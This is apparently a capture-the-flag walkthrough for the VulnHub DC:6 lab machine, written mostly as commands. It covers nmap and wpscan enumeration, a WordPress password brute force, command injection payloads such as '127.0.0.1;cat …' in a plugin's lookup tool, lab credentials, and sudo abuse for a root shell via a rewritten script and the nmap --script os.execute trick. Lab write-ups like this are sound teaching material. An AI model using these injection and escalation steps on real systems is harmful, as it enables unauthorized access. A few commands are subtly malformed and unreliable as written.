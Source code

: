 
# DC:6 Walkthrough

**VulnHub Link:** [DC:6](https://www.vulnhub.com/entry/dc-6,315/)
**Difficulty:** Easy  
**Release Date:** 26 Apr 2019

---

## 1. Reconnaissance

### Nmap Scan

nmap -A -O -T4 -P -sV 192.168.100.130

sudo echo "192.168.100.130	wordy" /etc/hosts

zgrep "k01" /usr/share/wordlists/rockyou.txt >> password.txt (stated on vulnhub due to not to lose much time on bruteforce)


## 2. Scanning & Enumeration

wpscan --url 'http://wordy' -e ap,u ---> (admin , graham , jens , mark , sarah) users found

wpscan --url 'http://wordy/' -U usernames.txt -P passwords.txt

mark - helpdesk01 found

on activity/tools , we check 127.0.0.1;id and click lookup --> retrieves output.!

127.0.0.1;cat /home/mark/stuff/things-to-do.txt 

graham - GSo7isUM1D4 found

connected with SSH 


## 3. Previlige Escalation

sudo -l (jens) NOPASSWD /home/jens/backups.sh 

sudo  echo "/bin/bash -i" > backups.sh

sudo -u jens ./backups.sh

--- jens's shell opened

sudo -l (root) NOPASSWD /usr/bin/nmap 

from GTFOBins 
----> TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF <----


and BINGO..! ROOT shell opened , Root flag captured.!

